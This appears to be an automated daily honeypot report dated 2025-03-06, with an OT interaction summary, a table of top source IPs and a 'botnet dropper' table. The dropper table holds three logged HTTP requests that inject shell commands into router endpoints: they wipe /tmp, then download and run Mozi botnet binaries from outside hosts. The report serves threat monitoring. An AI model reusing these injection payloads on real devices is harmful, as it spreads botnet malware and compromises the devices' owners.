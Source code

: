 ```yaml
---
title: "Report: 2025-03-06 "
date: 2025-03-06
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-06
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                     |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 120.85.119.145 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                  |
| 45.230.66.14   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.230.66.14:11243/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 220.248.25.154 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://220.248.25.154:42703/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                              |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   113 | 194.120.230.215 |
|   1 |                    72 | 195.178.110.163 |
|   2 |                    53 | 45.148.10.90    |
|   3 |                    46 | 185.16.38.107   |
|   4 |                    45 | 37.58.18.237    |
|   5 |                    42 | 178.211.139.120 |
|   6 |                    41 | 94.176.179.72   |
|   7 |                    38 | 92.255.57.58    |
|   8 |                    24 | 45.148.10.35    |
|   9 |                    24 | 157.245.212.153 |
|  10 |                    22 | 80.82.77.202    |
|  11 |                    19 | 154.81.156.8    |
|  12 |                    19 | 216.131.77.250  |